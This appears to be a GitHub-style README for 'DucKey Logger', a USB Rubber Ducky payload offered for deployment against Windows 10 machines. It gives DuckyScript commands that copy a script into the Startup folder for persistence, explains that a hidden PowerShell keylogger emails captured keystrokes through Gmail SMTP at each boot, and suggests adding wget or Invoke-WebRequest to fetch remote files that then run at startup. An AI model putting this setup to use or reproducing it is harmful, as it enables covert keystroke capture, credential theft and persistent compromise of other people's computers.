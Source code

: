 # DucKey Logger
> Chris Taylor [Blue Cosmo] | 08/24/21
---

```
:::::::::  :::    :::  ::::::::  :::    ::: :::::::::: :::   :::
:+:    :+: :+:    :+: :+:    :+: :+:   :+:  :+:        :+:   :+:
+:+    +:+ +:+    +:+ +:+        +:+  +:+   +:+         +:+ +:+  
+#+    +:+ +#+    +:+ +#+        +#++:++    +#++:++#     +#++:   
+#+    +#+ +#+    +#+ +#+        +#+  +#+   +#+           +#+    
#+#    #+# #+#    #+# #+#    #+# #+#   #+#  #+#           #+#    
#########   ########   ########  ###    ### ##########    ###     
```

## Overview:
```
DucKey Logger is a USB RubberDucky payload that uses PowerShell to log keystrokes
```
- Du - USB Rubber*Du*cky
- Croc - Key*Croc*
---
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes and email the logs every startup [via SMTP]

## Resources:
- [YouTube Video]()
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Twin-Duck firmware
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *c.cmd*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. change name of the SD Card in *payload.txt*
```
REM change 'L' do the name of your ducky
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'L'}|select name;cd $u.name;cp .\c.cmd "C:/Users/$($env:UserName)/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/";exit
```
3. choose an option in *payload.txt*
```
REM comment out the option you decide NOT to use

REM STAGE 4 [OPTION1]
REM run keylogger
STRING cd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";.\c.cmd;exit

REM STAGE 4 [OPTION2]
REM restart computer
STRING shutdown /r
```
4. flash Twin-Duck firmware on to your duck
    - [Tutorial](https://youtu.be/ao32BS8fwaM?t=700)
5. load and deploy!!

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)

